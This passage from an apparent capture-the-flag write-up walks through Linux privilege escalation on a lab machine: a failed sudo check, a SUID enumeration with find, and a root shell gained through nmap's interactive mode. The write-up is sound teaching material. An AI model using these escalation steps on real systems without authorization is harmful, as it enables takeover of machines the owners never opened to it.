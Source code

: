 ```shell
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
```

It seems we werent lucky.

Lets try the second best easy win enumerating SUIDs:

```shell
find / -perm -4000 -type f 2>/dev/null
```

Now we had better luck, we found nmap on the results:

```shell
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

### Escalating Priviliges with Nmap SUID
Searching on GTFOBins for a Privilege Escalation method for Nmap we found something:

```shell
https://gtfobins.github.io/gtfobins/nmap/
```

We also found this article:

https://www.adamcouch.co.uk/linux-privilege-escalation-setuid-nmap/

It seems like if we run the following commands we can get root:

```shell
/usr/local/bin/nmap --interactive
nmap> !sh
```

Nice! We got shell as root:
